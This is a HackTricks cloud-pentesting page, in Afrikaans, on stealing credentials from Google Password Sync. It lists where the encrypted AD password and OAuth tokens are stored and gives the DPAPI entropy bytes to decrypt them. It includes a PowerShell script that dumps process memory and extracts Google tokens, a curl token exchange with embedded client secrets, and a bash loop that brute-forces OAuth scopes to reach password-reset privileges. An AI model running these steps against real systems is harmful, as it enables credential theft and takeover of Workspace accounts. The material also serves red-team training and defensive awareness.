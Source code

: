 # GPS - Google Password Sync

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

Dit is die binêre en diens wat Google bied om **die wagwoorde van die gebruikers tussen die AD** en Workspace **gesinkroniseer te hou**. Elke keer as 'n gebruiker sy wagwoord in die AD verander, word dit na Google gestel.

Dit word geïnstalleer in `C:\Program Files\Google\Password Sync` waar jy die binêre `PasswordSync.exe` kan vind om dit te konfigureer en `password_sync_service.exe` (die diens wat sal voortgaan om te loop).

### GPS - Konfigurasie

Om hierdie binêre (en diens) te konfigureer, is dit nodig om **toegang te gee aan 'n Super Admin hoof in Workspace**:

* Teken in via **OAuth** met Google en dan sal dit **'n token in die register stoor (geënkripteer)**
* Slegs beskikbaar in Domein Beheerders met GUI
* Gee 'n paar **Diensrekening akrediteeringe van GCP** (json-lêer) met regte om **die Workspace gebruikers te bestuur**
* Baie slegte idee aangesien daardie akrediteeringe nooit verval nie en misbruik kan word
* Baie slegte idee om 'n SA toegang oor workspace te gee aangesien die SA in GCP gecompromitteer kan word en dit moontlik sal wees om na Workspace te pivot
* Google vereis dit vir domein beheer sonder GUI
* Hierdie akrediteeringe word ook in die register gestoor

Ten opsigte van AD, is dit moontlik om aan te dui om die huidige **aansoek konteks, anoniem of 'n spesifieke akreditering** te gebruik. As die akreditering opsie gekies word, word die **gebruikersnaam** in 'n lêer in die **skyf** gestoor en die **wagwoord** is **geënkripteer** en in die **register** gestoor.

### GPS - Dumping wagwoord en token van skyf

{% hint style="success" %}
Let daarop dat [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in staat is om **GPS** te detecteer, inligting oor die konfigurasie te verkry en **selfs die wagwoord en token te dekripteer**.
{% endhint %}

In die lêer **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** is dit moontlik om 'n deel van die konfigurasie soos die **`baseDN`** van die AD wat geconfigureer is en die **`gebruikersnaam`** wie se akrediteringe gebruik word, te vind.

In die register **`HKLM\Software\Google\Google Apps Password Sync`** is dit moontlik om die **geënkripteerde herlaai token** en die **geënkripteerde wagwoord** vir die AD gebruiker (indien enige) te vind. Boonop, as daar in plaas van 'n token, 'n paar **SA akrediteeringe** gebruik word, is dit ook moontlik om daardie geënkripteerde in daardie register adres te vind. Die **waardes** binne hierdie register is slegs **toeganklik** deur **Administrators**.

Die geënkripteerde **wagwoord** (indien enige) is binne die sleutel **`ADPassword`** en is geënkripteer met behulp van die **`CryptProtectData`** API. Om dit te dekripteer, moet jy dieselfde gebruiker wees as die een wat die wagwoord sinkronisasie geconfigureer het en hierdie **entropie** gebruik wanneer jy die **`CryptUnprotectData`** gebruik: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Die geënkripteerde token (indien enige) is binne die sleutel **`AuthToken`** en is geënkripteer met behulp van die **`CryptProtectData`** API. Om dit te dekripteer, moet jy dieselfde gebruiker wees as die een wat die wagwoord sinkronisasie geconfigureer het en hierdie **entropie** gebruik wanneer jy die **`CryptUnprotectData`** gebruik: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Boonop, dit is ook gekodeer met base32hex met die woordeboek **`0123456789abcdefghijklmnopqrstv`**.

Die entropie waardes is gevind deur die hulpmiddel te gebruik. Dit is geconfigureer om die oproepe na **`CryptUnprotectData`** en **`CryptProtectData`** te monitor en toe is die hulpmiddel gebruik om `PasswordSync.exe` te begin en te monitor wat die geconfigureerde wagwoord en auth token aan die begin sal dekripteer en die hulpmiddel sal **die waardes vir die entropie wat gebruik is** in beide gevalle wys:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Let daarop dat dit ook moontlik is om die **geënde** waardes in die invoer of uitvoer van die oproepe na hierdie API's te sien (in geval Winpeas op 'n stadium stop om te werk).

In die geval dat die Password Sync **geconfigureer is met SA akrediteeringe**, sal dit ook in sleutels binne die register **`HKLM\Software\Google\Google Apps Password Sync`** gestoor word.

### GPS - Dumping tokens van geheue

Net soos met GCPW, is dit moontlik om die geheue van die proses van die `PasswordSync.exe` en die `password_sync_service.exe` prosesse te dump en jy sal in staat wees om herlaai en toegang tokens te vind (indien hulle reeds gegenereer is).\
Ek vermoed jy kan ook die AD geconfigureerde akrediteeringe vind.

<details>

<summary>Dump <code>PasswordSync.exe</code> en die <code>password_sync_service.exe</code> prosesse en soek tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Genereer toegangstokens vanaf hernuwingstokens

Deur die hernuwingstoken te gebruik, is dit moontlik om toegangstokens te genereer met dit en die kliënt-ID en kliëntgeheim wat in die volgende opdrag gespesifiseer is:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Let daarop dat selfs al het jy 'n hernuwingsteken, dit nie moontlik is om enige omvang vir die toegangsteken aan te vra nie, aangesien jy slegs die **omvangs wat deur die toepassing ondersteun word waar jy die toegangsteken genereer** kan aan vra.

Ook, die hernuwingsteken is nie geldig in elke toepassing nie.
{% endhint %}

Standaard sal GPS nie toegang hê as die gebruiker tot elke moontlike OAuth omvang nie, so deur die volgende skrip te gebruik, kan ons die omvangs vind wat met die `refresh_token` gebruik kan word om 'n `access_token` te genereer:

<details>

<summary>Bash skrip om omvangs te brute-force</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

En dit is die uitvoer wat ek op die tyd van skryf gekry het:
```
https://www.googleapis.com/auth/admin.directory.user
```
Wat dieselfde is as wat jy kry as jy geen omvang aandui nie.

{% hint style="danger" %}
Met hierdie omvang kan jy **die wagwoord van 'n bestaande gebruiker verander om voorregte te verhoog**.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
